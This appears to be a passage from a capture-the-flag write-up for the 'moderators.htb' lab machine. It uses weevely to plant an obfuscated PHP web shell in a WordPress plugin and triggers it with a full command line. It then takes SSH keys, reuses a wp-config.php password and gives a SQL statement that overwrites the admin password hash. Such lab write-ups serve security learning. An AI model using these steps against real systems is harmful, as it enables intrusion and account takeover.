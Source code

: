 <img src="https://i.imgur.com/N1cWUWk.png"/>

I found a tool called `weevely` for generating obfuscated php shells

https://www.acunetix.com/blog/articles/web-shells-action-introduction-web-shells-part-4/


With this I generated a php script, now we need to replace this file with the one in includes directory

<img src="https://i.imgur.com/Fjpxrzs.png"/>

<img src="https://i.imgur.com/TwZOwPO.png"/>

Making a request again with the absolute path variable with weevely we'll get a reverse shell as `lexi` user

```bash
./weevely.py http://moderators.htb:8080/wpcontent/plugins/brandfolder/callback.php?wp_abspath=/var/www/html/logs/uploads/wp/ uwu
```

<img src="https://i.imgur.com/ldqce51.png"/>

We can grab this user's ssh key and login through ssh

<img src="https://i.imgur.com/ULiqc6i.png"/>

The wordpress password can be found from `wp-config.php` and we can try this on `john`  user

<img src="https://i.imgur.com/LrmNlg6.png"/>

<img src="https://i.imgur.com/sSwET5d.png"/>

Which didn't worked, so we can look at the plugin which is a password manager, so we'll find something there, as we have access to wordpress database, we can change admin user's password

<img src="https://i.imgur.com/VFcwHtp.png"/>

```
update wp_users SET user_pass = "$P$Bgz13AtQiY80g093FkqIKWQ8pIdLRX0" WHERE user_login = "admin";
```


<img src="https://i.imgur.com/RUjRQ0Q.png"/>

<img src="https://i.imgur.com/5MILwew.png"/>


From here we can get the ssh key for john

<img src="https://i.imgur.com/E1KBYOr.png"/>

We can now login as john using his ssh key

<img src="https://i.imgur.com/K2b1HCq.png"/>

